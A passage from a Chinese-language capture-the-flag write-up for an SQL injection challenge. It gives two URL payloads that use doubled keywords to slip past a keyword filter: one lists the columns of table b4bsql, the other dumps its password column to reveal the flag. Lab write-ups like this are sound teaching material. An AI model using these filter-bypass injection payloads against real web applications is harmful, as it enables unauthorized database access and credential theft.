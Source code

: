 ![在这里插入图片描述](img/0a279eb949a97b36a5139c3d5454b513.png)有两张表，接下来该爆破字段了
?username=admin&password=admin’ uunionnion sselectelect 1,2,group_concat(column_name)ffromrom infoorrmation_schema.columns wwherehere table_name=‘b4bsql’%23
![在这里插入图片描述](img/e5d7998a75244176f0260fd237e451d7.png)
有三列，分别是id，username，password，这也是大多数sql注入中表的格式。 接下来我们就开始爆数据
?username=admin&password=admin’ uunionnion sselectelect 1,2,group_concat(passwoorrd)ffromrom b4bsql%23

然后我们的flag就呈现到自己的面前了，
